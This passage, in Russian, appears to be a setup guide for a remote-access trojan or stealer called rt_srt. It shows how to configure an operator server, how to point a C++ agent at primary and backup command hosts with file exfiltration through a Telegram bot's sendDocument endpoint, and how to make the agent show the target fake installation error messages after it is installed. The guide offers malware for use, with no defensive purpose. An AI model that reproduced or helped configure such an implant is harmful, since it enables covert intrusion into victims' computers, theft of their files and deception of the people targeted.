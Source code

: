 
## ⚙️ Часть 2: Конфигурация системы

### 2.1 Настройка .env файла (ОЧЕНЬ ВАЖНО!)
```bash
# Откройте server/.env и настройте:

# Ваш IP адрес или домен (куда агент будет подключаться)
SERVER_HOST=192.168.1.100  # Замените на ваш реальный IP
SERVER_PORT=8000

# Секретные ключи (сгенерируйте новые!)
SECRET_KEY=ваш-супер-секретный-ключ-32-символа-минимум
AES_KEY=ваш-aes-ключ-ровно-32-символа

# Telegram бот (опционально)
TELEGRAM_BOT_TOKEN=your-telegram-bot-token
TELEGRAM_ALLOWED_USERS=123456789,987654321

# База данных
DATABASE_URL=sqlite:///./rt_srt.db

# Логирование
DEBUG=False
LOG_LEVEL=INFO
```

### 2.2 Настройка агента для подключения к вашему серверу
```cpp
// Отредактируйте agent/src/main.cpp
// Найдите эти строки (примерно строка 80-82):

namespace Config {
    constexpr const char* PRIMARY_HOST = "192.168.1.100:8000";  // Ваш IP:порт
    constexpr const char* BACKUP_HOST = "backup-server.com:8000";
    constexpr const char* TELEGRAM_BOT_URL = "https://api.telegram.org/bot{token}/sendDocument";
}

// Замените 192.168.1.100 на ваш реальный IP адрес!
// Если у вас есть домен, используйте его: "mydomain.com:8000"
```

### 2.3 Настройка поддельных сообщений для цели
```cpp
// В том же файле agent/src/main.cpp найдите или добавьте:

namespace DeceptionConfig {
    // Включить показ поддельных сообщений после установки
    constexpr bool SHOW_FAKE_ERROR = true;
    
    // Варианты сообщений (выберите одно или добавьте свое)
    constexpr const char* FAKE_MESSAGES[] = {
        "Файл поврежден. Обратитесь в службу поддержки: support@company.com",
        "Ваш регион не поддерживается. Попробуйте позже.",
        "Обновление завершено. Перезагрузите компьютер.",
        "Установка прервана. Недостаточно места на диске.",
        "Лицензия истекла. Обратитесь к администратору.",
        "Проверка целостности не пройдена. Файл может быть поврежден."
    };
    
    // Заголовок окна
    constexpr const char* ERROR_TITLE = "Ошибка установки";
    
```